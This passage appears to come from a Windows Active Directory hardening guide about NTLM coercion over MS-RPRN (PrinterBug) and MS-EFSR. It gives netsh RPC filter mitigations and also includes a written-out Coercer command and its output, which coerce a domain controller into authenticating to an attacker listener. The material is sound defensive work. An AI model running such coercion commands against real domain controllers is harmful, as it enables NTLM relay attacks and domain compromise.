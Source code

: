 ```txt
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification( pszLocalMachine='\\10.213.0.100\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx( pszLocalMachine='\\10.213.0.100\x00')
[+] SMB named pipe '\PIPE\spoolss' is accessible!
   [+] Successful bind to interface (12345678-1234-abcd-ef00-0123456789ab, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification( pszLocalMachine='\\10.213.0.100\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx( pszLocalMachine='\\10.213.0.100\x00')
[+] All done! Bye Bye!
```

The primary solution to this vulnerability, commonly known as PrinterBug,
is to disable the `Print Spooler` service on domain controllers.
As an alternative, the following sequence of `netsh.exe` commands will block MS-RPRN connections over named pipes:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=7966512a-f2f4-4cb1-812d-d967ab83d28a
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=12345678-1234-ABCD-EF00-0123456789AB
add filter
```

> [!NOTE]
> In a future version of Windows Server, the MS-RPRN protocol will exclusively
be [moved to a standalone TCP port](https://learn.microsoft.com/en-us/troubleshoot/windows-client/printing/windows-11-rpc-connection-updates-for-print)
by default.

#### \[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol

The [\[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)
is [available over multiple named pipes](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/1baaad2f-7a84-4238-b113-f32827a39cd2):

| Named Pipe     | RPC Interface UUID                   |
|----------------|--------------------------------------|
| \\PIPE\\efsrpc | df1941c5-fe89-4e79-bf10-463657acf44d |
| \\PIPE\\lsarpc | c681d488-d850-11d0-8c52-00c04fd90f7e |

This protocol is yet another popular target for initiating NTLM relay attacks:

```shell
coercer coerce --target-ip dc01 --listener-ip hacker-pc --username john --password 'Pa$$w0rd' --domain contoso.com --filter-transport msrpc --filter-pipe lsarpc --filter-method EfsRpcAddUsersToFileEx --always-continue
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\5jPfJ0a3\file.txt\x00')
```

[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template